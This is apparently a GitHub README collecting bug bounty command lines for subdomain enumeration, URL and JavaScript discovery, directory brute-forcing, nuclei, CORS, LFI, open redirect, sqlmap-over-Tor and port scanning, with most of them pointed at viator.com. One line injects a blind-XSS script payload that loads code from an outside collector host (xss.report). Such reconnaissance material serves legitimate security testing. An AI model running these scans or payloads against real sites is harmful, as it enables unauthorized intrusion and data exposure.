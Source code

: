 # Bug Bounty Hunting Terminal Commands

This repository contains a collection of terminal commands commonly used for bug bounty hunting.

## Subdomain Enumeration

```bash
# Find subdomains using Subfinder
subfinder -d viator.com -all -recursive > subdomain.txt

# Check for alive subdomains with specific ports
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

## URL Discovery

```bash
# Discover URLs with Katana and filter useful file types
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# Search for specific file types in URLs
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

## JavaScript Files

```bash
# Extract JavaScript files and test for exposures
cat allurls.txt | grep -E "\.js$" >> js.txt
cat js.txt | nuclei -t /home/asshu/nuclei-templates/http/exposures/

# Directly scan JavaScript files from domain
echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/asshu/nuclei-templates/http/exposures/ -c 30
```

## Directory Bruteforcing

```bash
# Bruteforce common directory names
dirsearch -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js,.json
```

## XSS Detection

```bash
# Detect XSS vulnerabilities with a payload
subfinder -d viator.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aswin></script>' -parameters
```

## Subdomain Takeover

```bash
# Run Subzy to detect subdomain takeovers
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

## CORS Misconfiguration

```bash
# Test for CORS misconfiguration
python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## Vulnerability Scanning

```bash
# Run Nuclei templates against subdomains
nuclei -list subdomains_alive.txt -t /home/asshu/nuclei-templates/Priv8-Nuclei-Templates/
nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
```

## Local File Inclusion (LFI) & Open Redirect

```bash
# Test for LFI vulnerabilities
cat allurls.txt | gf lfi | nuclei -tags lfi

# Test for Open Redirect vulnerabilities
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

## API, Development, and Staging Subdomains

```bash
# Filter API, development, and staging subdomains
subfinder -d target.com -silent | dnsprobe -silent | cut -d ' ' -f1  | grep --color 'api\|dev\|stg\|test\|admin\|demo\|stage\|pre\|vpn'
```

## Additional Subdomain Enumeration Techniques

```bash
# BufferOver, Riddler, and Web Archive methods for subdomains
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

## SQL Injection Detection

```bash
# SQL Injection testing with SQLMap
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor
```

## Port Scanning

```bash
# Port scanning with Naabu
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt
```

## License

This repository is licensed under the MIT License.
